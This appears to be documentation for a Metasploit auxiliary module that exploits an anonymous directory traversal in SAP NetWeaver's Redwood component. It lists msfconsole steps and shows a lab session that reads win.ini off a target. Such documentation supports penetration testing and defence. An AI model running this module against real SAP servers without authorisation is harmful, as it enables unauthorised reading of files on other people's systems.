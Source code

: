 # Description

This is a module exploits an anonymous directory traversal vulnerability in the
Redwood module of the SAP NetWeaver Application Server. The vulnerability was
actively exploited in the wild in 2017.

# Verification Steps

 1. Start msfconsole
 2. use auxiliary/scanner/sap/sap_redwood_traversal
 3. set RHOSTS [IP]
 4. set FILEPATH [file_on_remote_server]
 5. set DEPTH [number]
 6. run

## Scenarios

Tested on Windows 2008 with SAP NetWeaver AS Java 7.52

```
msf5 > use auxiliary/scanner/sap/sap_redwood_traversal
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set rhosts 192.168.2.164
rhosts => 192.168.2.164
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set DEPTH 25
DEPTH => 25
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set FILEPATH Windows\win.ini
FILEPATH => Windows\win.ini
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > run

[+] 192.168.2.164:50000 - ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

[+] File saved in: [local_path_in_your_machine]
```
